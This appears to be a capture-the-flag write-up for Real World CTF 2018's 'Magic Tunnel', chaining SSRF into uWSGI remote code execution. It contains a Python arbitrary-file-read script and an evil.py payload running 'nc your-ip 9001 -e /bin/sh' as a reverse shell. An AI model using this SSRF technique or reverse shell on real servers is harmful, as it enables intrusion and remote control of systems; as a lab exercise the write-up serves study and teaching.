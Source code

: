 ### References

- [@veneno, RWCTF-Magic Tunnel-WP, 2018-12-06](https://xz.aliyun.com/t/3512)
- [@zaratec, Real World CTF 2018 | Magic Tunnel, 2018-12-20](https://zaratec.github.io/2018/12/20/rwctf2018-magic-tunnel/)
- [@phith0n, realworldctf/magic_tunnel/README.md](https://github.com/phith0n/realworldctf/tree/master/2018/magic_tunnel)
- [@wofeiwo, uWSGI 远程代码执行漏洞](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md)

**Tag: SSRF, uWSGI rce**

1.Use `file:///proc/mounts` we can find WEB directory

```tex
/usr/src/rwctf
```

and read `file:///proc/self/cmdline` we can see the process is a uWSGI server with exposed 8000 port.

2.Read arbitrary files script:

```python
import re
import requests

s = requests.session()
response = s.post('http://192.168.200.129:8080/', data={
    'url': 'file:///usr/src/rwctf/manage.py',
    'csrfmiddlewaretoken': 'QSroJ2yRuVRFFXkT2m6hHYlRKdpwK6MYX9f1wcHW87DJeTJelzg3WRZxjIXhHNhp'
}, cookies={'csrftoken': 'QSroJ2yRuVRFFXkT2m6hHYlRKdpwK6MYX9f1wcHW87DJeTJelzg3WRZxjIXhHNhp'}, allow_redirects=True)
# print(response.text)

g = re.search('<img src="(.+?)"', response.text)
filename = g.group(1)
print(filename)

response = s.get('http://192.168.200.129:8080' + filename)
print(response.text)

```

Download and read the source code.

3.Know the "magic variables" [UWSGI_FILE](https://uwsgi-docs.readthedocs.io/en/latest/Vars.html)-Load the specified file as a new dynamic app, and then we can use gopher+SSRF to execute arbitrary script on the server.

4.Download evil.py:

```python
import os
os.system("nc your-ip 9001 -e /bin/sh")
```

![img1](./assets/img1.png?raw=true)

5.Generate evil uwsgi protocol bytes, `/usr/src/rwctf/media/2021/05/16/fb08beef-ebce-41e5-9b75-1316552e102b` is the evil python code that you have downloaded.

6.Use SSRF to send evil bytes to uwsgi port 8000:

![img2](./assets/img2.png?raw=true)

